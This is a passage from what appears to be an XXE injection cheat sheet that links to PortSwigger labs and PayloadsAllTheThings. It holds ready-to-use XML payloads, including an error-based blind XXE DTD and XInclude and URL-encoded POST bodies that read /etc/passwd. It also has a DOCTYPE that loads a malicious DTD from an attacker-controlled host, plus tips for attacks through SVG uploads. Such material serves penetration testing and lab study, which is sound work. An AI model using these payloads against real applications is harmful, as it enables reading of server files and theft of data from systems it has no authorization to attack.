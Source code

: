 
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

* Inject the following payload in the body of the request on the target application: (Note: The file on your server needs to be called "malicious.dtd")

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```


<br>

### Blind XXE – repurpose a local DTD

* https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-by-repurposing-a-local-dtd

<br>

### Hidden Attack Surface – XInclude Attacks

* Inject the following payload in the body of the request on the target application: 

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

* Payload Example: (URL encoding is required on appropriate characters to work properly in POST request.)

```
productId=1<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```

<br>

### Hidden Attack Surface – File Upload

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-in-exotic-files

* https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload

* To identify this vulnerability:

   * Set the file extension to .svg
 
   * Include a \<svg\> parameter in the request body where the file's contents go 

<br>

### Change Content Type of Request
